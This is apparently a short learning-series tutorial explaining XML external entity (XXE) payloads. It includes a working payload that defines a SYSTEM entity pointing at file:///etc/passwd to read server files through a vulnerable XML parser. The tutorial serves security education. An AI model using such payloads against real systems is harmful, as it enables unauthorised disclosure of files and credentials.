<h1>$${\color{blue}XXE}\space {\color{blue}Payload }$$</h1>



Now we'll see some ***XXE payload*** and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

As we can see we are defining a ```ENTITY``` called ```name``` and assigning it a value ```feast```. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name ```read``` but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file ```/etc/passwd```.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.


<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
